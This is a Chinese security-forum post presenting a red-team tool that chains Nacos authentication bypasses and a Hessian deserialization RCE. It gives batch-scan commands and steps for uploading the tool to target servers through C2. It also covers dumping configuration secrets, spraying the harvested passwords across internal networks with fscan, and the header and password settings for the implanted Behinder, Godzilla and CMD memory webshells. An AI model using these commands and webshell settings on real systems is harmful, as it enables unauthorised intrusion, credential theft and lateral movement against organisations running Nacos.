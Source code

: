 

# Nacos 红队快速利用工具 - 先知社区

Nacos 红队快速利用工具

- - -

# HKEcho Nacos 快速利用工具 v0.1

**原创投稿作者：HKEcho@深蓝实验室天玄攻防战队**

注意：工具仅供学习使用，请勿滥用，否则后果自负！

```plain
~~||HKEcho Nacos 快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置 Referer:https://www.google.com/
```

工具文件夹中 HKEcho\_Nacos.exe，nacosleak.exe 均已通过 upx 压缩加壳减小体积。

## 原理

本工具支持检测以下漏洞：

```plain
0、未授权查看用户列表

以下漏洞顺序执行直到获取到一个账号：
1、检测 nacos 默认口令
2、任意用户添加
3、任意用户添加 UA_Bypass
4、任意用户添加末尾斜杠绕过
5、默认 JWT 任意用户添加
6、JWT_Secret_Key 硬编码绕过
7、Identity 硬编码绕过
8、QVD-2023-6271 身份认证绕过
一旦某个漏洞获取账号密码后，会调用 a1phaboy 师傅写的 nacosleak 读取配置文件

9、Nacos_Jraft_Hessian 反序列化漏洞
程序会调用 c0olw 师傅写的 NacosRce 打一遍 Jraft_Hessian 反序列化漏洞（本工具在调用这个 NacosRce 工具前会判断 Java 环境，若不存在，则告警不执行）
```

## 安装

```plain
pip install -r requirements.txt
```

## 食用

```plain
HKEcho_Nacos>python HKEcho_Nacos.py -h
* * * * * * * * * * * * * * * * * * * * * * * *
        ~~||HKEcho Nacos 快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置 Referer:https://www.google.com/
* * * * * * * * * * * * * * * * * * * * * * * *
usage: HKEcho_Nacos.py [-h] [-u URL] [-f FILENAME]

optional arguments:
  -h, --help   show this help message and exit
  -u URL       要检查漏洞的单个 URL:http://127.0.0.1:8848
  -f FILENAME  批量检测，包含 URL 的文本文件
```

**1、单个目标检测：**

```plain
python HKEcho_Nacos.py -u http://192.2xx.2xx.1x:8848
```

[![](assets/1702521043-c95b755b87ca6e63aa96e7578e178f75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164155-7a254a50-94dc-1.png)

**2、批量目标检测**：

新建 txt 文件，一行放一个 Nacos 的 URL

```plain
python HKEcho_Nacos.py -f target.txt
```

[![](assets/1702521043-19afda1a11c6338ad298249068e53408.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164217-86e85886-94dc-1.png)

**3、特殊场景下使用**

注意：HKEcho\_Nacos.exe 命令行界面在 win11 下图形加载正常，其余系统可能存在显示问题，不影响程序使用

上传 python 打包的 HKEcho\_Nacos.exe 到 C2 上使用，注意，单纯上传 HKEcho\_Nacos.exe 运行，会对内网目标 nacos 添加一个账号，不会对目标进行配置文件导出和检测 Nacos\_Jraft\_Hessian 反序列化漏洞。若想导出配置文件，可单独上传 nacosleak.exe 进行读取。

[![](assets/1702521043-71a2099c2330b0778b8e3d83a70f5ec5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164232-902cc9d6-94dc-1.png)

[![](assets/1702521043-929e88ae1c0ffd91edea61e061bb8835.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164250-9ace67a0-94dc-1.png)

或者如下图直接将 HKEcho\_Nacos.exe 与 nacosleak.exe 通过 C2 上传到目标服务器上同一目录下，直接执行 HKEcho\_Nacos.exe 会自动调用 nacosleak.exe

[![](assets/1702521043-bc03743c8bed7e259f95489c4246282c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164303-a29ddc72-94dc-1.png)

同理，若想检测检测 Nacos\_Jraft\_Hessian 反序列化漏洞，同理可以将 NacosRce 压缩后上传到目标服务器上同一目录下，不过不建议这样，NacosRce 太大了。

[![](assets/1702521043-e01f766633ecb8b124bb15d31f836ec8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164319-ac4993ec-94dc-1.png)

## Nacos 后利用

### Nacos 配置文件

上述利用完成后，会在/results/ip\_port/public 目录下生成目标站点的配置文件，a1phaboy 师傅特别将 ak/sk,password 关键字提取了出来：

[![](assets/1702521043-c4d51519b05b3cdb47e238d2487f244f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164337-b6989cb2-94dc-1.png)

我们可以在内网可以通过该密码本快速爆破，比如利用 fscan 等工具

```plain
fscan.exe -h 192.168.1.1/24 -o 192.168.1.txt -pwda 收集到的新密码 -usera 收集到的新用户
```

### Nacos Hessian 反序列化漏洞

这个漏洞在项目中其实遇到的不是很多。

一、冰蝎内存马：

```plain
1、需要设置请求头 x-client-data:rebeyond
2、设置 Referer:https://www.google.com/
3、路径随意
4、密码 rebeyond
```

二、哥斯拉内存马：

```plain
1、需要设置请求头 x-client-data:godzilla
2、设置 Referer:https://www.google.com/
3、路径随意
4、密码是 pass 和 key
```

三、CMD 内存马：

```plain
1、需要设置请求头 x-client-data:cmd
2、设置 Referer:https://www.google.com/
3、请求头 cmd:要执行的命令
```

#### **后渗透**

后渗透利用 pap1rman 师傅的哥斯拉 nacos 后渗透插件-postnacos

MakeToken

[![](assets/1702521043-c1b389c1b9acae8fbb84ac345467e02a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164359-c3c9fc78-94dc-1.png)

将生成后的 token 保存进浏览器 cookie 格式 token:{xxx}

[![](assets/1702521043-05613e12b8bf6b10e7536eea1a500b65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164425-d32a9ab0-94dc-1.png)

**Adduser**

[![](assets/1702521043-69c38a02b156d75f41ea5e1b42daebf6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164446-dfe7c7fa-94dc-1.png)

添加一个账号后，用 nacosleak 单独把配置文件读取下来。

```plain
nacosleak.exe -t http://192.2xx.2xx.21:8848 -u audit2 -p Password123!
```

## 测试环境

在 github 下载有漏洞的版本  
[https://github.com/alibaba/nacos/releases](https://github.com/alibaba/nacos/releases)

[![](assets/1702521043-b114f1dfba130597a51ebc05192e6389.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164511-eea9f470-94dc-1.png)

[![](assets/1702521043-45dcb4bda52dc2c2c53428ed1b3db242.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164529-f9a95906-94dc-1.png)

## 参考链接

致谢：  
[https://github.com/Pizz33/nacos\_vul](https://github.com/Pizz33/nacos_vul)  
[https://github.com/c0olw/NacosRce](https://github.com/c0olw/NacosRce)  
[https://github.com/pap1rman/postnacos](https://github.com/pap1rman/postnacos)

## 项目地址

[https://github.com/HKEcho5213/HKEcho\_Nacos.git](https://github.com/HKEcho5213/HKEcho_Nacos.git)
